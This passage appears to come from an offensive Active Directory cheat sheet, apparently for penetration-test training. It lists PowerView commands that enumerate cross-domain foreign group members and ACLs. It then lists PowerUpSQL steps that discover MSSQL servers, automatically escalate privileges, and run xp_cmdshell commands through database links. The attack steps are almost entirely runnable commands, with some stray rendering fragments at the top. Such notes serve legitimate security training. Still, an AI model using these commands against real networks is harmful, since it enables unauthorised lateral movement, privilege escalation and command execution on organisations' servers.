   ```powershell
      ```powershell
      Get-NetLocalGroupMember <server>

    - Scenario 2: Foreign Group Membership - Find users from foreign domain having membership in current AD groups. They show in "ForeignSecurityPrincipals" container of domain

       ```powershell
       Get-DomainObject -Domain organicsecurity.local -LDAPFilter '(ObjectClass=ForeignSecurityPrincipals)'
       Get-DomainForeignGroupMember -Domain <target.domain.fqdn>
       Get-DomainForeignUser -Domain <target.domain.fqdn>

    - Scenario 3: Foreign ACL Principals - Find the ACEs applied on ad objects where the security identifier is not set to the domain being queried, or set to the domain you are currently having access. 

      ```powershell
      Get-DomainObjectACL -Domain <domain.fqdn>
      Get-DomainObjectAcl -Domain eurocorp.local | ?{$_.SecurityIdentifier -like "S-1-5-21-234345438-14223333-702334436*"} | select ObjectDN, ActiveDirectoryRights, AceType, SecurityIdentifier



# TrustAbuse - MSSQL using PowerUp SQL

  - Identifying all the MSSQL Database Servers in the current domain (searches domain by MSSQL SPN in computer object)

    ```powershell
    Get-SQLInstanceDomain

  - Check if the current logged-on user has access to SQL Database

    ```powershell
    Get-SQLConnectionTestThreaded

  - Gather More Information about the SQL Database (Only Accessible DBs)

    ```powershell
    Get-SQLInstanceDomain | Get-SQLServerInfo

  - Invoke audit checks on the accessible DB Service to identify the vulnerabilities and misconfigurations

    ```powershell
    Invoke-SQLAudit -Instance <server_fqdn>

  - Invoke automated abuse of the vulnerabilities 

    ```powershell
    Invoke-SQLEscalatePriv -Instance <server_fqdn>

  - Identify the DB Links

    ```powershell
    Get-SQLServerLink -Instance dcorp-mssql.organicsecurity.local   

  - Execute commands using xp_cmdshell via DB Links

    ```powershell
    Get-SQLServerLinkCrawl -Instance dcorp-mssql.organicsecurity.local  -Query "exec master..xp_cmdshell 'whoami'"

  ```